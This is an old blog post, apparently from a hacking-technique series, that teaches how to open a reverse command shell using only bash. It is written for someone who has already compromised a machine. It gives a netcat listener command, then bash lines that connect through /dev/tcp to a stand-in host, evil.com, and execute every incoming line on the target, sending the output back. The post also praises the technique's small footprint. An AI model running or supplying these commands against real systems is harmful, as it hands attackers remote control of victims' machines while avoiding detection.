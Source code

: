```yaml
---
title: Reverse Shell with Bash
author: petko-d-petkov
date: Sat, 19 Apr 2008 11:03:39 GMT
template: this/views/post.jade
---
```


I am stuck at the Dubai International Airport and I have nothing else interesting to do. So, I though I might share a simple technique which will go into the [Agile Hacking](/blog/agile-hacking/) project. Here I will show you how to create a reverse command shell without using any 3rd-party tools such as the all mighty netcat.

When we compromise a machine we often need to provide ourselves with a user friendly access to the system. This is where command shells come into place. The typical shell consists of a generic network client, typically netcat, listening on a remote port which pipes output into something like bash or any other command shell. Another type of shell is the reverse shell which consists of a generic network client, again something like netcat, connecting to the attacker's machine and piping input to bash. Most of the time, the attacker will use netcat, because this tool can be easily found on most system or easily compiled from source if required.

Although netcat is very useful, and you may have to use it in most cases, here is a simple technique which emulates what netcat does but it relies on bash only. Let's see how.

In step one we start a listening service on our box. We can use netcat, or whatever you might have at hand.

	$ nc -l -p 8080 -vvv

On the target we have to perform some bash-fu. We will create a new descriptor which is assigned to a network node. Then we will read and write to that descriptor.

	$ exec 5<>/dev/tcp/evil.com/8080
	$ cat <&5 | while read line; do $line 2>&5 >&5; done

There you go. Now everything we type in our local listening server will get executed on the target and the output of the commands will be piped back. Keep in mind that we don't use any 3rd-party tools on the target but its default shell. This technique comes handy in many situations and it leaves very small footprint on the targeted system.
